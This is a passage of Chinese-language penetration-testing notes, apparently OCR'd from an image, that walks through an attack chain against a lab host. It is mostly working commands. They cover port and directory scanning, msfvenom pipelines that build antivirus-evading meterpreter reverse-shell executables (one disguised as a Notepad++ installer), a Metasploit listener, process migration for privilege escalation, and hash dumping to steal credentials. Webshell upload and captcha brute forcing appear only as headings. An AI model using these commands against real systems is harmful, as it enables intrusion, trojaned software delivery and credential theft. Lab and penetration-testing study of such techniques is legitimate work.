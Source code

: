 Masscan 扫描端口`masscan -p 1-65535 --rate=1000 192.168.1.13`

Nmap 进行端口扫描`nmap -p 3306,47001,49154,3389,445,49155,139,49152,49156,48157,80,49153 -sC -A 192.168.1.13 -oA hello-p`

web收集信息`whatweb http://www.webhack123.com/`

扫描目录`gobuster dir -u http://www.webhack123.com -w /usr/share/wordlists/dirb/big.txt -t 50`

## web打点

### SVN 源码泄露

打开wc.db 文件`sqlitebrowser wc.db`，寻找后台、密码等关键信息

### hosts_scan

`python IP_hosts_scan.py`

### 验证码绕过爆破

### 上传webshell

## metasploit 提权

1. 多次使用编码器生成免杀exe文件`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.211.129 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/shikata_ga_nai -a x86 --platform windows -i 5 -f raw | msfvenom -e x86/shikata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -f exe -o notepad2.exe`

   用注入方法生成免杀exe文件`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.211.129 LPORT=4444 -e x86/shikata_ga_nai -x /root/桌面/npp.7.9.3.Installer.exe -i 5 -f exe -o nppinstall2.exe`

2. 打开`msfconsole`

3. 进入到监听模块`use exploit/multi/handler`

4. 设置payload`set payload windows/meterpreter/reverse_tcp`

5. 设置攻击ip`set lhost 192.168.211.129`

6. 端口`set lport 4444`

7. 攻击`exploit`

8. 上传木马并执行

9. 查看进程：`ps`

10. 迁移高权限进程：`migrate PID`

11. 查看权限：`getuid`

## 收集hash 明文凭证网络信息

1. `Hashdump`获取提取Hash值，破解了就是密码
2. `run post/windows/gather/smart_hashdump`从注册表中提取hash值，文件会保存在
   /root/.msf4/loot/20211114065107_default_10.10.10.149_windows.hashes_734954.txt
